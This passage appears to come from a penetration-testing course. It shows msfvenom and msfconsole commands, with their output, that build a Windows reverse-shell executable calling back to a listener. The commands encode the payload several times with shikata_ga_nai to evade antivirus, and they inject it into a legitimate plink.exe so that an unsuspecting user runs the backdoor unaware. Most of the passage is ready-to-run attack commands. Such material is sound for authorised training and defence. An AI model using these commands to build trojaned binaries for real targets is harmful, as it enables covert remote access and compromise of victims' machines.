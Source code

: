 The Metasploit Framework payloads can also be exported into various file types and formats, such as ASP, VBScript, Jar, War, Windows DLL and EXE, and more.

For example, let's use the msfvenom utility to generate a raw Windows PE reverse shell executable. We'll use the -p flag to set the payload, set LHOST and LPORT to assign the listening host and port, -f to set the output format (exe in this case), and -o to specify the output file name:

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -o shell_reverse.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
Saved as: shell_reverse.exe
                                                                                                                                                               
┌──(kali㉿kali)-[~]
└─$ file shell_reverse.exe 
shell_reverse.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```

The shellcode embedded in the PE file can be encoded using any of the many MSF encoders. Historically, this helped evade antivirus, though this is no longer true with modern AV engines. The encoding is configured with -e to specify the encoder type and -i to set the desired number of encoding iterations. We can use multiple encoding iterations to further obfuscate the binary, which could effectively evade rudimentary signature detection.

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -o shell_reverse_msf_encoded.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai succeeded with size 432 (iteration=3)
x86/shikata_ga_nai succeeded with size 459 (iteration=4)
x86/shikata_ga_nai succeeded with size 486 (iteration=5)
x86/shikata_ga_nai succeeded with size 513 (iteration=6)
x86/shikata_ga_nai succeeded with size 540 (iteration=7)
x86/shikata_ga_nai succeeded with size 567 (iteration=8)
x86/shikata_ga_nai chosen with final size 567
Payload size: 567 bytes
Final size of exe file: 73802 bytes
Saved as: shell_reverse_msf_encoded.exe
```

Another useful feature of Metasploit is the ability to inject a payload into an existing PE file, which may further reduce the chances of AV detection. The injection is done with the -x flag, specifying the file to inject into.

```bash
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/shell_reverse_tcp LHOST=192.168.118.2 LPORT=443 -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 9 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai succeeded with size 378 (iteration=1)
x86/shikata_ga_nai succeeded with size 405 (iteration=2)
x86/shikata_ga_nai succeeded with size 432 (iteration=3)
x86/shikata_ga_nai succeeded with size 459 (iteration=4)
x86/shikata_ga_nai succeeded with size 486 (iteration=5)
x86/shikata_ga_nai succeeded with size 513 (iteration=6)
x86/shikata_ga_nai succeeded with size 540 (iteration=7)
x86/shikata_ga_nai succeeded with size 567 (iteration=8)
x86/shikata_ga_nai chosen with final size 567
Payload size: 567 bytes
Final size of exe file: 311296 bytes
Saved as: shell_reverse_msf_encoded_embedded.exe
```

These payloads can be used as part of a client side attack, as a backdoor, or stand-alone as an easy method to get a payload from one machine to another.

When an unsuspecting user executes the binary with our injected payload, it will operate normally from the user's perspective. Behind the scenes however, the injected payload will attempt to connect back to our awaiting listener.

A little known secret is that this process can also be accomplished from within msfconsole with the generate command. For example, we can do the following to recreate the previous msfvenom example:

```bash
msf6 payload(windows/shell_reverse_tcp) > generate -f exe -e x86/shikata_ga_nai -i 9 -x /usr/share/windows-resources/binaries/plink.exe -o shell_reverse_msf_encoded_embedded.exe
[*] Writing 311296 bytes to shell_reverse_msf_encoded_embedded.exe...
```
